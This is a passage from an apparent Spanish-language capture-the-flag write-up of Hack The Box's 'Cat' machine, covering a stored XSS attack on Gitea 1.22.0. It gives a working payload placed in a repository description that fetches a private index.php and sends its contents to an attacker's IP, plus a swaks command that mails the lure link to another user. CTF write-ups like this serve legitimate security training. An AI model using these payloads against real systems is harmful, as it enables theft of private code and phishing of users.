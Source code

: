 
Vemos la versión 1.22.0 de gitTea.

Buscando por exploits encontramos [un exploit, claro](https://www.exploit-db.com/exploits/52077)

Se trata de un ataque sencillo de XSS en la descripción del repositorio git, en la web se explica exactamente como hacerlo.

Antes de nada, vamos a acceder como Axel a gittea, la contraseña es la misma que la que encontramos en el access.log.

## Exploit

Creamos el repositorio git con un documento vacío.

y le añadimos de description un payload XSS.

```html
   <a href="javascript:fetch('http://localhost:3000/administrator/Employee-management/raw/branch/main/index.php').then(response => response.text()).then(data => fetch('http://10.10.16.67/?response=' + encodeURIComponent(data))).catch(error => console.error('Error:', error));">more</a>
```

![alt text](/assets/img/posts/cat_htb/image-21.png)

Haciendo uso del servidor de correo vamos a enviar mail a jobert@cat.htb con el payload.

```bash
❯ swaks --to "jobert@localhost" --from "axel@localhost" --header "Subject: click link" --body "http://localhost:3000/axel/gold" --server localhost --port 25 --timeout 30s
```

Usando swaks podemos enviar mails desde el servidor de correo redireccionado al puerto 25.

Ahora a la espera de la respuesta en nuestro puerto 80.

![alt text](/assets/img/posts/cat_htb/image-22.png)
